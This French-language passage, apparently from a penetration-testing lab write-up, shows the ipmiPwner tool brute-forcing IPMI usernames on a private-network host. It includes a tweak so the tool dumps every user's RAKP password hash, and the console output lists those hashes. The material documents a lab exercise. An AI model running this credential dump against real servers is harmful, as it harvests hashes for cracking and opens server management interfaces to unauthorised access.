 [GitHub - c0rnf13ld/ipmiPwner: Exploit to dump ipmi hashes](https://github.com/c0rnf13ld/ipmiPwner)

Pour qu'il dumpe les hashs de tous les utilisateurs il faut au préalable retirer les lignes `if valid: break` dans le script.

```console
$ python ipmipwner.py -uW ipmi_users.txt --host 192.168.56.104
[*] Checking if port 623 for host 192.168.56.104 is active
[*] Brute Forcing
[*] Reading the file by chunks
[*] Reading Bytes: 241/241
[*] Number of retries: 2
[*] The username: admin is valid                                                  
[*] The hash for user: admin
   \_ $rakp$a4a3a2a082820000e340f72310a9b278aa67bd0fe3347b2207de3d91fec2fe4b24bb323a2228916aa123456789abcdefa123456789abcdef140561646d696e$3bc90a797d6405fc5ef9ca18fbbfb3031a22a25b
[*] The username: analiese is valid                                                  
[*] The hash for user: analiese
   \_ $rakp$a4a3a2a00483000008e5f97b4314b56c205a49029e032273fc6c18d10151dc6cd1ffc8a1c95a9fc8a123456789abcdefa123456789abcdef1408616e616c69657365$00bb5c695a847996c7c62e90d62bf7762f928d01
[*] The username: briella is valid                                                  
[*] The hash for user: briella
   \_ $rakp$a4a3a2a086830000d13b1a774e098e15ea2c1f348d0d5ce359e737d963acb49c7f4a95eec0e9697aa123456789abcdefa123456789abcdef1407627269656c6c61$c5fc3728771ec70e9afc759b84e4e7295ae6b873
[*] The username: richardson is valid                                                  
[*] The hash for user: richardson
   \_ $rakp$a4a3a2a008840000d546945f2cba6c9670807f050815ae03afb3fc0a543a0bbd21b223d7ec2a5ab6a123456789abcdefa123456789abcdef140a72696368617264736f6e$15ef505a27de6751606091f72f4daa6435ec90ec
[*] The username: carsten is valid                                                  
[*] The hash for user: carsten
   \_ $rakp$a4a3a2a082840000df5a9577ea142767c7e0be2f83fffbd1bd4c4a80e02f891ec7e6385af0f9fb20a123456789abcdefa123456789abcdef14076361727374656e$c4eed13373a6917c269308a70aa393de4fb0f40b
[*] The username: sibylle is valid                                                  
[*] The hash for user: sibylle
   \_ $rakp$a4a3a2a0048500004e43364a3ab0aa8c52ad109adf81075a78471498f2c9e3394527a0d7fb1f9ae2a123456789abcdefa123456789abcdef1407736962796c6c65$d389a1b3e72fc9cc315c16da48987b961f8d5f39
[*] The username: wai-ching is valid                                                  
[*] The hash for user: wai-ching
   \_ $rakp$a4a3a2a086850000905b57d01d09d3ffcb90f0b8fff841d1f98254e8073d6eac7ad3bc92db5eb39ca123456789abcdefa123456789abcdef14097761692d6368696e67$a3263565a101a1781f1e4ff613b14c3aa276d490
[*] The username: jerrilee is valid                                                  
[*] The hash for user: jerrilee
   \_ $rakp$a4a3a2a0028600007e2e2b251050db698eb7711f26c1d4a139011c69badce70b8220ebaccc4b5771a123456789abcdefa123456789abcdef14086a657272696c6565$a622aae0992e2a8d78ccf23bb4270f34fce16c92
[*] The username: glynn is valid                                                  
[*] The hash for user: glynn
   \_ $rakp$a4a3a2a084860000b3682ad2f0deb0a0b341c5598314a65f1b9b53d7ccbdd12572230b0f43138c30a123456789abcdefa123456789abcdef1405676c796e6e$882ca6661dfb1b4fc571e2426ec5edc9e68129ab
[*] The username: asia is valid                                                  
[*] The hash for user: asia
   \_ $rakp$a4a3a2a006870000c4910cd9690be2a2211c8b5b0c0450e8945658b5b88ef8b9537e38f6a90ad73ea123456789abcdefa123456789abcdef140461736961$ffc09eafa9179aab91f067ad523a36a403cbc802
[*] The username: zaylen is valid                                                  
[*] The hash for user: zaylen
   \_ $rakp$a4a3a2a0828700007a4a01353f9edc2b87952565181e9f04afef09f7d64b903ce6177b0d3b225316a123456789abcdefa123456789abcdef14067a61796c656e$e6889782d423f0aea596d2aefa4882b1873ae6d8
[*] The username: fabien is valid                                                  
[*] The hash for user: fabien
   \_ $rakp$a4a3a2a004880000275a65b1a3522f3ca2818028a793b7dcaf6fb90561d123820564ba341a98981ba123456789abcdefa123456789abcdef140666616269656e$29886783287de29f312f928b5bb3ee7d1c12254c
[*] The username: merola is valid                                                  
[*] The hash for user: merola
   \_ $rakp$a4a3a2a08688000034d92beb0c6ef5871c505b9b31dc7bed8d9e4d744cc4c5a3dea1052fcc90ed28a123456789abcdefa123456789abcdef14066d65726f6c61$161fdbc6bf67d0f2b156cfeba558d992e469f57a
[*] The username: jem is valid                                                  
```